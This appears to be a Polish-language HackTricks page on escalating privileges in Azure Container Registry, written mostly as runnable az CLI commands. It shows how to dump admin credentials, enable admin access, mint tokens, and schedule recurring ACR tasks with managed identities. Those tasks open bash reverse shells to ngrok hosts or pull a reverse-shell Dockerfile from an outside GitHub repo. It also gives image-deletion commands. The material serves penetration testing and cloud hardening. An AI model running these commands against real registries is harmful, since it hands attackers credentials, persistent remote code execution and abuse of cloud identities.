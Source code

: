 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Aby uzyskać więcej informacji, sprawdź:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

To uprawnienie pozwala użytkownikowi na wylistowanie danych uwierzytelniających administratora ACR. Jest to przydatne do **uzyskania pełnego dostępu** do rejestru.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```
W przypadku, gdy poświadczenia administratora nie są włączone, będziesz również potrzebować uprawnienia `Microsoft.ContainerRegistry/registries/write`, aby je włączyć za pomocą:
```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```
### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

Te uprawnienia pozwalają użytkownikowi na **utworzenie nowego tokena** z hasłami do uzyskania dostępu do rejestru.

Aby użyć `az cli` do jego wygenerowania, jak w poniższym przykładzie, będziesz również potrzebować uprawnień `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`
```bash
az acr token create \
--registry <registry-name> \
--name <token-name> \
--scope-map _repositories_admin
```
### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

Te uprawnienia pozwalają użytkownikowi na **budowanie i uruchamianie obrazu** w rejestrze. Może to być użyte do **wykonywania kodu** w kontenerze.

>[!WARNING]
> Jednak obraz będzie wykonywany w **piaskownicy** i **bez dostępu do usługi metadanych**. Oznacza to, że kontener nie będzie miał dostępu do **metadanych instancji**, więc to nie jest naprawdę przydatne do eskalacji uprawnień.
```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```
### `Microsoft.ContainerRegistry/registries/tasks/write`

To jest główne uprawnienie, które pozwala na tworzenie i aktualizowanie zadania w rejestrze. Może być używane do **wykonywania kodu wewnątrz kontenera z przypisaną do niego zarządzaną tożsamością** w kontenerze.

Oto przykład, jak wykonać powłokę reverse w kontenerze z **zarządzaną przez system** tożsamością przypisaną do niego:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Innym sposobem na uzyskanie RCE z zadania bez użycia zewnętrznego repozytorium jest użycie polecenia `az acr task create` z flagą `--cmd`. To pozwoli ci uruchomić polecenie w kontenerze. Na przykład, możesz uruchomić powłokę odwrotną za pomocą następującego polecenia:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task-cmd \
--image rev/shell2:v1 \
--cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
--schedule "*/1 * * * *" \
--context /dev/null \
--commit-trigger-enabled false \
--assign-identity
```
> [!TIP]
> Zauważ, że aby przypisać tożsamość zarządzaną przez system, nie potrzebujesz żadnych specjalnych uprawnień, chociaż musi ona być wcześniej włączona w rejestrze i przypisane muszą być jej jakieś uprawnienia, aby była użyteczna.

Aby przypisać **tożsamość zarządzaną przez użytkownika**, potrzebujesz również uprawnienia `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, aby to zrobić:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Aby **zaktualizować** repozytorium istniejącego zadania, możesz to zrobić:
```bash
az acr task update \
--registry <registry-name> \
--name reverse-shell-task \
--context https://github.com/your-user/your-repo.git
```
### `Microsoft.ContainerRegistry/registries/importImage/action`

Dzięki temu uprawnieniu możliwe jest **zaimportowanie obrazu do rejestru azure**, nawet bez posiadania obrazu lokalnie. Należy jednak pamiętać, że **nie można zaimportować obrazu z tagiem**, który już istnieje w rejestrze.
```bash
# Push with az cli
az acr import \
--name <registry-name> \
--source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```
Aby **usunąć lub usunąć konkretny tag obrazu** z rejestru, możesz użyć następującego polecenia. Należy jednak pamiętać, że będziesz potrzebować użytkownika lub tokena z **odpowiednimi uprawnieniami**, aby to zrobić:
```bash
az acr repository untag \
--name <registry-name> \
--image <image-name>:<tag>

az acr repository delete \
--name <registry-name> \
--image <image-name>:<tag>
```
{{#include ../../../banners/hacktricks-training.md}}
